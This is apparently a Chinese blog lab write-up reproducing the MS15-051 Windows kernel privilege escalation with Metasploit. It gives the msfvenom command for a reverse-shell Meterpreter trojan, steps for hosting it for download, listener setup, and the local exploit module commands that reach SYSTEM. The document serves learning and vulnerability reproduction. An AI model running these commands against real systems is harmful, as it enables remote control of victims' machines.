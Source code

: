 ```yaml
---
title: ms15-051提权
date: 2021-08-19 00:03:38
updated: 2021-08-19 00:03:38
categories: 漏洞复现
password: npfs2333
---
```




windows内核溢出提权实战<!--more-->

# 漏洞背景
  Metasploit是一款开源的渗透测试工具，可以帮助安全员发现漏洞问题，此工具带有的攻击模块可以帮助安全员简单的利用相关的漏洞，本实验通过Metasploit对内网机器进行渗透，并且使用ms15-051进行权限提升获取window server 2003的system权限，最后进行远程控制。

Win32k.sys内核模式驱动程序没有正确处理内存对象，在实现上存在权限提升漏洞，成功利用此漏洞可使攻击者在内核模式中运行任意代码。攻击者必须具有有效的登录凭证，并且可以本地登录以利用此漏洞。远程或匿名用户无法利用此漏洞。
**相应补丁号为：3045171**

# 影响范围
```
Microsoft Windows Vista
Microsoft Windows Server 2012 R2
Microsoft Windows Server 2012
Microsoft Windows Server 2008 R2
Microsoft Windows Server 2008
Microsoft Windows Server 2003
Microsoft Windows RT 8.1
Microsoft Windows RT
Microsoft Windows 8.1
Microsoft Windows 8
Microsoft Windows 7
```

# 环境

| 机器   | 系统                     | IP             |
| ------ | ------------------------ | -------------- |
| 攻击机 | Kali 2021.2              | 192.168.45.135 |
| 靶机   | Windows Server 2008 32位 | 192.168.45.138 |
# 漏洞复现
假设已经获得一个低权限用户的msf
通过信息收集，查看一下是否安装了3045171，用wmic qfe |find "3045171"指定搜索补丁，该靶机并没有安装相应补丁


## 生成木马

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.45.135 lport=4444 -f exe > shell.exe
```

msfvenom命令：

```
-p, --payload <payload> 指定需要使用的payload(攻击荷载)。如果需要使用自定义的payload，请使用&#039;-&#039;或者stdin指定
-l, --list [module_type] 列出指定模块的所有可用资源. 模块类型包括: payloads, encoders, nops, all
-n, --nopsled <length> 为payload预先指定一个NOP滑动长度
-f, --format <format> 指定输出格式 (使用 --help-formats 来获取msf支持的输出格式列表)
-e, --encoder [encoder] 指定需要使用的encoder（编码器）
-a, --arch <architecture> 指定payload的目标架构
--platform <platform> 指定payload的目标平台
-s, --space <length> 设定有效攻击荷载的最大长度
-b, --bad-chars <list> 设定规避字符集，比如: &#039;\x00\xff&#039;
-i, --iterations <count> 指定payload的编码次数
-c, --add-code <path> 指定一个附加的win32 shellcode文件
-x, --template <path> 指定一个自定义的可执行文件作为模板
-k, --keep 保护模板程序的动作，注入的payload作为一个新的进程运行
--payload-options 列举payload的标准选项
-o, --out <path> 保存payload
-v, --var-name <name> 指定一个自定义的变量，以确定输出格式
--shellest 最小化生成payload
-h, --help 查看帮助选项
--help-formats 查看msf支持的输出格式列表
生成payload必须要使用“-p”来指定要使用的payload，“-f”来指定输出的格式，命令如：Msfvenom -p windows/meterpreter/bind

```


![图片描述](https://static.cdnjs.cloud/20210814/image-1628909960780_273851119949.png)


## 将木马上传至服务器
```
cd /opt/lampp/htdocs
mkdir shell
mv /root/shell.exe /opt/lampp/htdocs/shell/
/opt/lampp/lampp restart
```

![图片描述](https://static.cdnjs.cloud/20210814/image-1628910319431_68696100337.png)

访问192.168.45.135/shell即可下载木马。
![图片描述](https://static.cdnjs.cloud/20210814/image-1628910477859_681125504783.png)

##  开始攻击
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.45.135
set lport 4444
exploit
```

![图片描述](https://static.cdnjs.cloud/20210814/image-1628910546292_545481314737.png)

## 利用漏洞提权
```
background
search ms15-051 #寻找MS15-051的利用模块
use exploit/windows/local/ms15_051_client_copy_image
set payload windows/meterpreter/reverse_tcp
set session 1
set lhost 192.168.45.135
set lport 4444
run
```

![图片描述](https://static.cdnjs.cloud/20210814/image-1628910601601_351707160008.png)

成功获得了system权限，提权成功。
# reference

https://blog.csdn.net/qq_45716477/article/details/118440406